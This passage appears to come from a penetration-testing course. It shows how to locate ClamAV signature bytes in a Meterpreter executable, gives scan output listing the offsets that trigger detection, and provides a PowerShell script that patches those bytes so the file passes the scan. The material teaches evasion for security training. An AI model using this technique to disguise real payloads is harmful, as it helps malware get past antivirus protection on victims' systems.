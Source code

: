 As we can see, this did effectively bypass the signature detection.

Sometimes, modifying the byte at the exact offset will not evade the signature, but modifying the byte before or after it will.

We succeeded in evading the signature match by modifying a single byte. Recalling that another signature was detected in the offset range 18900 to 19000, we'll repeat the procedure and locate the first offending byte.

After several iterations, we discover that the byte at offset 18987 contains the first signature byte as shown in Listing 13. Note that we are now running the split on our modified executable, which contains our first signature modification.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest8
C:\Tools\avtest8\met_mod_18980.bin: OK
C:\Tools\avtest8\met_mod_18981.bin: OK
C:\Tools\avtest8\met_mod_18982.bin: OK
C:\Tools\avtest8\met_mod_18983.bin: OK
C:\Tools\avtest8\met_mod_18984.bin: OK
C:\Tools\avtest8\met_mod_18985.bin: OK
C:\Tools\avtest8\met_mod_18986.bin: OK
C:\Tools\avtest8\met_mod_18987.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest8\met_mod_18988.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest8\met_mod_18989.bin: Win.Trojan.MSShellcode-7 FOUND
C:\Tools\avtest8\met_mod_18990.bin: Win.Trojan.MSShellcode-7 FOUND
```

> Listing 13 - Locating the second signature

Once again we have evaded the second signature by modifying this single byte.

If we continue following this procedure, we find that all bytes evade detection, but the complete file is detected. We can evade this by changing the last byte at offset 73801. In this instance, changing the byte to 0x00 does not produce a clean scan, but changing it to 0xFF does.

To fully evade the signature scan, we end up with the following PowerShell script:

```
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
$bytes[18987] = 0
$bytes[73801] = 0xFF
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

> Listing 14 - Complete modification of the Meterpreter executable

Again, note that the number of signature detections and offsets may vary.

Performing a final scan of the complete modified Meterpreter executable, we find that it successfully evades detection by ClamAV.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest14
C:\Tools\avtest14\met_mod.exe: OK
```

> Listing 15 - Bypassing signature detection of ClamAV
